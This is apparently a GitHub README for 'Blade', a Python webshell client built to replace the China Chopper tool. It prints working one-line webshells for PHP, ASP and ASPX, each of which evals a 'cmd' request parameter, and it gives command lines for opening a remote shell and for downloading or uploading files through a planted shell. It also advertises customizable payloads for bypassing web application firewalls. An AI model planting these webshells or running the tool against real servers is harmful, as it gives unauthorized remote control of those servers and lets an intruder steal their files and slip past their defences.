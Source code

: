 ##Blade
Blade is a webshell connection tool based on console, currently under development and aims to be a choice of replacement of Chooper (中国菜刀). Chooper is a very cool webshell client with widly typies of server side scripts supported, but Chooper can only work on Windows opreation system, so this is the motivation of create another "Chooper" supporting Windows, Linux & Mac OS X. Blade is based on Python, so it allows users to modify the webshell connection payloads so that Blade can bypass some specified WAF which Chooper can not.
##Major functions
Manage a web server with only one-line code on it, just like: <?php @eval($_REQUEST["cmd"]); ?>

PHP, ASP, ASPX & JSP supported.

Terminal Console provided.

File management & Dadabase management.
##Features
Cross-plaform supported (Python needed)

Customizable WAF bypass payloads

Compatible with Chooper's server side scripts
##Server side scripts examples
PHP:
<?php @eval($_REQUEST["cmd"]); ?>

ASP:
<%eval request("cmd")%>

ASPX:
<%@ Page Language="Jscript"%><%eval(Request.Item["cmd"],"unsafe");%>
##Usage
Get a shell:

 python blade.py -u http://localhost/shell.php -s php -p cmd --shell

Download a file:

python blade.py -u http://localhost/shell.php -s php -p cmd --pull remote_path local_path

Upload a file:

python blade.py -u http://localhost/shell.php -s php -p cmd --push local_path remote_path
##Current issues
Server side scripts supporting is not completed, currently only support PHP and ASP

Database management function is not completed, so can not connect databases
##Future developent
Beacuse I am busy sometimes, the progress of development may be a bit slow. If anyone intrest this project, welcome fork!
